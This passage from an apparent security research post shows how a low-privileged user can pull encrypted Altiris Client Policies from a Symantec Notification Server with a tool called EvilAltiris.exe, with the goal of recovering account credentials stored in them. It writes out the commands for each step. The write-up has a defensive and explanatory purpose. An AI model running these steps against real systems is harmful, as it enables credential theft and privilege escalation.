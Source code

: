 As suggested by the previous diagram, our goal will be to retrieve the (encrypted) *Client Policies* from the *Notification Server*, and then extract the ACCs from them. To do so, we will need two pieces of information, a "Machine GUID", and a "Type GUID". The machine's GUID is easy to obtain from the registry, even as a low-privileged user:

```batch
"C:\Temp\EvilAltiris.exe" GetMachineGuid
```

![Getting the Machine GUID](/assets/posts/2025-06-11-checking-symantec-account-credentials-privesccheck/evilaltiris-high-getmachineguid.png)
*Getting the Machine GUID*

Next, we retrieve the machine's "Type GUID" using `SMATool.exe`.

```batch
"C:\Temp\EvilAltiris.exe" SmaGetTypeGuid /smapath:"C:\Temp\SMATool.exe"
```

![Getting the Machine Type GUID](/assets/posts/2025-06-11-checking-symantec-account-credentials-privesccheck/evilaltiris-high-machinetypeguid.png)
*Getting the Machine Type GUID*

We can now craft the `GetClientPolicies` HTTP request, and send it to the *Notification Server*, which name can be retrieved from the registry as well.

```batch
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Altiris\Altiris Agent\Servers"
"C:\Temp\EvilAltiris.exe" GetClientPolicies
  /url:"http://srv02.foundation.local"
  /machine:"{59067291-0E3D-44DE-85FD-BDE4B5632648}"
  /type:"{493435F7-3B17-4C4C-B07F-C23E7AB7781F}"
  /outfile:"C:\Temp\policy_data_encrypted.dat"
```
